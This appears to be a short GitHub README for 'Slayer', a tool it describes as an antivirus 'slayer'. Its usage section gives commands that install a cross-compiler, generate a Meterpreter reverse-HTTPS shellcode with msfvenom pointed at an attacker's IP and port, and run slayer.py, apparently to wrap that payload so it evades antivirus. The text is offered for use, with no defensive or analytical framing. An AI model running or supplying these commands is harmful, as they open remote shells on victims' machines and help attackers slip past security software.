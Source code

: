 # Slayer

Just a AV slayer. Nothing special ;)

######## USAGE ########


git clone https://github.com/mertdas/slayer.git && apt-get install mingw-w64*
cd slayer
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR IP LPORT=YOUR PORT -f raw -o shellcode.raw
python3 slayer.py

![image](https://user-images.githubusercontent.com/48562581/152684537-d445638f-c73b-46cb-a809-dfaa5a65b334.png)
